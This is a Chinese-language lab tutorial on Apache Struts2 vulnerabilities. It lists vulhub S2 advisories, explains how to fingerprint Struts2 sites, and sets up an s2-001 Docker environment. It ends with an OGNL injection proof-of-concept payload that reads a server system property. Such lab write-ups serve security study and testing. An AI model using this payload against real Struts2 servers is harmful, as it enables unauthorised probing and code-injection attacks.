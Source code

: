 

## 漏洞概述
Struts2 漏洞历年来发现了不少，从命名来看已经不下50个，单在vulhub中列出的有：

s2-005  s2-008  s2-012  s2-015  s2-032  s2-046  s2-052  s2-057 s2-001     s2-007  s2-009  s2-013  s2-016  s2-045  s2-048  s2-053  s2-059


### 判断网站使用Struts2框架
一般攻击者在攻击之前会判断网站是Struts2编写，主要看有没有链接是.action或者.do结尾的，这是因为配置文件struts.xml指定了action的后缀

`<constant name="struts.action.extension" value="action,," />`

具体还有以下几种情况：
- 采用默认配置文件解析之后，不带后缀的uri也会被解析为action的名字。例如：`localhost:8080/s23/index.action`

- 如果配置文件中常数extension的值以逗号结尾或者有空值，指明了action可以不带后缀，那么不带后缀的uri也可能是struts2框架搭建的。即：`localhost:8080/s23/index`


- 如果使用Struts2的rest插件，其默认的struts-plugin.xml指定的请求后缀为xhtml,xml和json。`<constant name="struts.action.extension" value="xhtml,,xml,json" />`根据后缀不同，rest插件使用不同的处理流程，如下请求json格式的数据，框架就使用了JsonLibHandler类对输出进行处理。`localhost:8080/s23/orders.json`

- xhtml和xml结尾的请求则使用HtmlHandler和XStreamHandler分别处理。所以在测试的时候，不能明确判断网站使用的是否为struts2框架时，特别是碰到后两种情况，都可以拿工具去试试运气。


## 漏洞复现

### s2-001

使用vulhub/struts/s2-001环境复现。安装过程参考github上vulhub README文档。

执行以下命令启动s2-001测试环境：
```
sudo docker-compose build
sudo docker-compose up -d
sudo docker-compose ps
# s2-001_struts2_1   catalina.sh run   Up      0.0.0.0:8080->8080/tcp

```

从浏览器访问 http://serverip:8080 可以看到一个简单的页面。页面链接为：`http://10.10.10.129:8080/login.action;jsessionid=73D9FA0C70C6A9BB985B831F8972DE2D` 其中，`login.action;`基本上说明该页面由struts2框架构建.

### POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

根据ongl语法和[Java 系统属性](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html)，可以查看更多内容。
